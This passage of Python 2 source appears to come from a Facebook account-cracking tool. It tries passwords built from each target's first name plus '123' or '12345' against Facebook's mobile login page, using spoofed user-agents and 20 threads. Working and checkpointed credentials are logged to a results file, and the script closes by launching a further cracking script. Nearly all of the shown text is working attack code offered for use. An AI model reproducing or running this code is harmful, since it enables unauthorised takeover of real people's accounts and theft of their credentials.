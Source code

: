 								oks.append(ef)
							else:
								if 'checkpoint' in xs:
									print '\033[0;97m   [CP]\033[0;97m '+ef+' \033[0;97m•\033[0;97m '+pb3
									cek = open('done/pakis.txt', 'a')
									cek.write('\n   [CP] '+ef+' • '+pb3)
									cek.close()
									CP.append(ef)
								else:
									pb4 = p['first_name'].lower()+'12345'
									rep = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : ef, "pass" : pb4, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
									xs = rep.content
									if 'mbasic_logout_button' in xs or 'save-device' in xs:
										print '\033[0;97m   [OK]\033[0;97m '+ef+' \033[0;97m• \033[0;97m'+pb4
										oke = open('done/pakis.txt', 'a')
										oke.write('\n   [OK] '+ef+' • '+pb4)
										oke.close()
										oks.append(ef)
									else:
										if 'checkpoint' in xs:
											print '\033[0;97m   [CP]\033[0;97m '+ef+' \033[0;97m•\033[0;97m '+pb4
											cek = open('done/pakis.txt', 'a')
											cek.write('\n   [CP] '+ef+' • '+pb4)
											cek.close()
											CP.append(ef)
										else:
											pb5 = p['first_name'].lower()+'123'
											rep = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : ef, "pass" : pb5, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36"})
											xs = rep.content
											if 'mbasic_logout_button' in xs or 'save-device' in xs:
												print '\033[0;97m   [OK]\033[0;97m '+ef+' \033[0;97m• \033[0;97m'+pb5
												oke = open('done/pakis.txt', 'a')
												oke.write('\n   [OK] '+ef+' • '+pb5)
												oke.close()
												oks.append(ef)
											else:
												if 'checkpoint' in xs:
													print '\033[0;97m   [CP]\033[0;97m '+ef+' \033[0;97m•\033[0;97m '+pb5
													cek = open('done/pakis.txt', 'a')
													cek.write('\n   [CP] '+ef+' • '+pb5)
													cek.close()
													CP.append(ef)
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print '\033[0;97m   • \033[0;97mSelesai ...'
	print"\033[0;97m   • \033[0;97mTotal \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97m: \033[0;97m"+str(len(oks))+"\033[0;97m/\033[0;97m"+str(len(CP))
	print '\033[0;97m   • \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97mfile tersimpan \033[0;97m: \033[0;97mdone/pakis.txt'
	print "\033[0;91m╚═══════════════════════════════════════════════════════════════╝"
	raw_input("\033[0;97m   < \033[0;97mKembali\033[0;97m >")
	os.system("python2 crackfb2.py")
